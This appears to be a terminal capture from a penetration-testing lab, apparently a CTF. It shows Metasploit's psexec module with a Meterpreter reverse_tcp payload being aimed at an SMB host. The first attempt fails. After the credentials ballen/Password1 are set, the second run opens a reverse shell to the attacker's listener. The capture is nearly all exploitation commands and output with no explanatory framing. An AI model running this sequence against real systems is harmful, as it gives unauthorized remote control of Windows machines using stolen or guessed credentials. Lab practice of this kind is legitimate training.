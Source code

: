 ```bash

   Used when making a new connection via RHOSTS:

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   RHOSTS                      no        The target host(s), see https://docs.
                                         metasploit.com/docs/using-metasploit/
                                         basics/using-metasploit.html
   RPORT      445              no        The target port (TCP)
   SMBDomain  .                no        The Windows domain to use for authent
                                         ication
   SMBPass                     no        The password for the specified userna
                                         me
   SMBUser                     no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thr
                                        ead, process, none)
   LHOST     10.10.2.3        yes       The listen address (an interface may b
                                        e specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(windows/smb/psexec) > set rhosts 10.10.105.71
rhosts => 10.10.105.71
msf6 exploit(windows/smb/psexec) > run
[*] Started reverse TCP handler on 10.10.2.3:4444 
[*] 10.10.105.71:445 - Connecting to the server...
[*] 10.10.105.71:445 - Authenticating to 10.10.105.71:445 as user ''...
[-] 10.10.105.71:445 - Exploit failed [no-access]: RubySMB::Error::UnexpectedStatusCode The server responded with an unexpected status code: STATUS_ACCESS_DENIED
[*] Exploit completed, but no session was created.
msf6 exploit(windows/smb/psexec) > set smbuser ballen
smbuser => ballen
msf6 exploit(windows/smb/psexec) > set smbpass Password1
smbpass => Password1
msf6 exploit(windows/smb/psexec) > run
[*] Started reverse TCP handler on 10.10.2.3:4444 
[*] 10.10.105.71:445 - Connecting to the server...
[*] 10.10.105.71:445 - Authenticating to 10.10.105.71:445 as user 'ballen'...
[*] 10.10.105.71:445 - Selecting PowerShell target
[*] 10.10.105.71:445 - Executing the payload...
[+] 10.10.105.71:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (177734 bytes) to 10.10.105.71
[*] Meterpreter session 1 opened (10.10.2.3:4444 -> 10.10.105.71:59663) at 2025-05-26 22:57:45 +0100

meterpreter > 
```